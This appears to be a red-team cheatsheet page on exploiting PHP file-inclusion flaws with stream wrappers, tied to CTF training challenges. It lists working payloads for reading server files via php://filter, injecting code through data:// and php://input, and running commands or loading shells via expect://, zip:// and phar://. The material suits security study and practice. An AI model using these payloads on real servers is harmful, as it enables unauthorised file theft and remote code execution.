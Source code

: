 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![php_filters](../../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![remote_file_inclusion](../../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file` or use `php://filter/zlib.deflate/read=convert.base64-encode/resource=/path/to/file` for shorter payloads. [Refer to this to automatically decode it](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php--catch-requests).

To **inject** some code (encoded as base64): 

* `data://text/plain;base64,<base64 php code here>`
* `allow_url_include` must be enabled 🛑

To **inject** some code (as POST data), inject `php://input` and use:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>

We can also use some special wrappers:

* `expect://id`: run the `id` command, not often installed
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

Refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#phar) to generate phar archives or to write PHP code.
</div></div>
